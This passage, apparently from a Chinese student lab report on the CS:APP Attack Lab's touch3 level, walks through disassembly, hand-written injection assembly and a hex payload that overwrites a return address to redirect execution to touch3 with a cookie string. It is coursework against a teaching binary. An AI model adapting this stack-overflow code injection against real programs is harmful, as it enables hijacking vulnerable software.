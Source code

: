 ```shell
0000000000401959 <touch3>:
  401959:	53                   	push   %rbx
  40195a:	48 89 fb             	mov    %rdi,%rbx
  40195d:	c7 05 95 2b 20 00 03 	movl   $0x3,0x202b95(%rip)        # 6044fc <vlevel>
```



综上，写出如下汇编代码：

```c
# 3.s
movq $0x5566f4d8, %rdi # 将字符串的存储地址传入给%edi
pushq $0x401959 # 将touch3地址压栈
ret
```

同样将其转为16进制格式：

```shell
2020012363@hp:~$ gcc -c 3.s -o 3.o
3.s: Assembler messages:
3.s: Warning: end of file not at end of a line; newline inserted
2020012363@hp:~$ objdump -S 3.o > 3.s
```

得到如下反汇编代码：

```c

3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 d8 f4 66 55 	mov    $0x5566f4d8,%rdi
   7:	68 59 19 40 00       	pushq  $0x401959
   c:	c3                   	retq   

```

综上所述，按照实验原理部分说明，编写如下攻击代码：

```shell
48 c7 c7 d8 f4 66 55
68 59 19 40 00
c3	00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 f4 66 55 00 00 00 00
32 63 30 64 65 39 63 34
```

攻击代码由如下部分组成：

